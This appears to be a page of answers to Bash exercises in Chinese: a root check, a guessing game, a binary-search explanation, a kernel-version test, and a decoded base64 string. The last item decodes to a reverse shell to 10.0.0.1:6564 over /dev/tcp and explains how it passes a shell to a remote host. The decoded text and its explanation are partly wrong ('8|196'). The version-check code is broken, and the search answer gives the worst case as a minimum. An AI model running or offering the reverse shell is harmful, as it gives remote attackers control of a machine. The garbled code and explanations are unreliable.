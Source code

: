 ****1.  [ "$(id -u)" -eq 0 ] && echo "hi, root" || echo "$(whoami)"

2.  #!/bin/bash
    secret_num=$(( RANDOM % 20 + 1 ))
    guesses=0
    while (( guesses < 5 )); do
        # 提示用户输入猜测值
        read -p "请输入猜测值（1-20）: " guess
        # 检查用户输入是否为数字
        if [[ ! $guess =~ ^[0-9]+$ ]]; then
            echo "输入无效，请输入数字。"
            continue
        fi
        # 判断猜测值与随机数字的关系
        if (( guess < secret_num )); then
            echo "猜小了。"
        elif (( guess > secret_num )); then
            echo "猜大了。"
        else
            echo "猜中啦！"
            break
        fi
        # 增加猜测次数
        guesses=$(( guesses + 1 ))
    done
    
    if (( guesses == 5 )); then
        echo "很遗憾，你没有猜中。正确答案是 $secret_num。"
    fi

3   初始时，我们可以选择中间值作为第一次的猜测，即猜测值为 500（因为 (0+1000)/2 = 500）。这是因为范围是0到1000，所以中间值500是一个合理的起始点，将搜索范围一分为二。

  如果猜测的数字与目标数字相等，那么我们猜中了，猜测次数为1。

如果猜测的数字小于目标数字，那么目标数字只可能在较大的一半范围内，即500到1000之间。我们可以继续使用二分查找算法，在这个范围内再次猜测中间值，比如750（因为 (500+1000)/2 = 750）。

如果猜测的数字大于目标数字，那么目标数字只可能在较小的一半范围内，即0到500之间。我们可以继续使用二分查找算法，在这个范围内再次猜测中间值，比如250（因为 (0+500)/2 = 250）。

我们可以根据上面的步骤不断地缩小搜索范围，每次都将搜索范围缩小一半，直到猜中目标数字为止。

根据二分查找算法的性质，每次猜测都可以将搜索范围缩小一半，所以我们最多只需要进行 log2(1000) ≈ 10 次猜测，就可以在最坏情况下猜中目标数字。因此，至少要猜10次。这是一种最优化的策略，可以在最少的猜测次数内找到正确答案。

4. string=$(uname -r) | version=$(echo "$string -r" | cut -d '-' -f 1) && [[ $version > 5.4 ]] && echo "yes" || echo "no"

5. echo "MDwmMTk2O2V4ZWMgMTk2PD4vZGV2L3RjcC8xMC4wLjAuMS82NTY0OyBiYXNoIDwmMTk2ID4mMTk2IDI+JjE5Ng==" | base64 -d
   等于  8|196;exec 196<>/dev/tcp/10.0.0.1/6564; bash <&196 >&196 2>&196
Shell 的方式，可以用于与远程主机建立连接并在远程主机上执行 Bash 命令。下面是详细的解码过程：

使用 echo 命令将编码后的字符串输出到标准输入。
使用 base64 -d 命令对输入的字符串进行解码。
解码后得到明文字符串 8|196;exec 196<>/dev/tcp/10.0.0.1/6564; bash <&196 >&196 2>&196。
这个明文字符串是一个反向连接 Shell 的命令，它包含以下几个部分：

8|196;：将文件描述符 196 与标准输入（文件描述符 0）和标准输出（文件描述符 1）以及标准错误输出（文件描述符 2）关联。
exec 196<>/dev/tcp/10.0.0.1/6564;：使用 exec 命令将文件描述符 196 关联到 /dev/tcp/10.0.0.1/6564，即远程主机的 IP 地址为 10.0.0.1，端口号为 6564，建立反向连接。
bash <&196 >&196 2>&196：将文件描述符 196 作为输入重定向到 Bash，并将标准输出和标准错误输出都重定向到文件描述符 196，从而将 Shell 的输入输出与远程主机建立的连接关联起来，实现反向连接 Shell。
****
